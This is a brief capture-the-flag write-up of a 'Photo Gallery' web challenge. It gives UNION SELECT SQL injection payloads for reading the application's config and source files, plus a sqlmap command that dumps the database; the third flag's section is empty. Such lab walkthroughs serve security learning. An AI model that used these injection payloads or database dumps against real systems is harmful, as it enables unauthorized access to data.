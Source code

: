 # Photo Gallery
## Flag 1
* http://35.227.24.107/a46a28d046/fetch?id=1 when selected image
* based on the Hint "Take a few minutes to consider the state of the union"
* A union select could be used however the location was understood after the nxext hint
* "This application runs on the uwsgi-nginx-flask-docker image" from a quick search the file loacation was dtermined.
* uwsgi.ini is the config and main.py is the main file
* Hence id=1.1 UNION SELECT 'uwsgi.ini' -- and id=1.1 UNION SELECT 'main,py' -- was tried 
* main.py had the flag.

## Flag 2
* http://35.227.24.107/a46a28d046/fetch?id=1 used with sqlmap
* sqlmap -u 35.227.24.107/a46a28d046/fetch?id=1 --dump --threads 10
* Flag 2 found


## Flag 3
* 
